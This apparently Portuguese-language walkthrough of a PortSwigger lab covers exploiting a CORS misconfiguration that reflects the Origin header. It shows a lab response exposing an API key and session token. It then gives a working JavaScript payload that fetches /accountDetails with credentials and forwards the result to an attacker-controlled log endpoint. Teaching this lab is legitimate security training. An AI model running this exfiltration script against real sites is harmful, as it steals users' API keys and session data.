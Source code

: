 
Ao adicionar ao cabeçalho dessa requisição o `Origin: https://sonaelneto.net`, o servidor reflete o valor do `Origin` no cabeçalho `Access-Control-Allow-Origin` da resposta, permitindo que o navegador faça a requisição.

``` http

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://sonaelneto.net
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "cmZDTS2LwN4s4k8Hd09Z2TluyAuLBRYn",
  "sessions": [
    "kTwrvGAS4ZuDF5ZfirBDZHyFv9INWLG1"
  ]
}

```

Isso significa que podemos fazer uma requisição para o endereço `/accountDetails` e obter as informações do usuário, mesmo que o servidor não tenha sido configurado para aceitar requisições de outros domínios.

Para isso, iremos utilizar o **exploit server** do laboratório, que permite criarmos um script para fazer requisições para o servidor do laboratório. Lá iremos adicionar o seguinte script no campo **body**:


``` javascript

<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aa0008c04059ddec0e081b30009005d.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>

```

O script acima faz uma requisição para o endereço `/accountDetails` e envia o resultado para o endereço `/log?key=`, que é um servidor que temos acesso.

Apos enviar o script, iremos clicar no botão **access log** para ver o resultado da requisição.
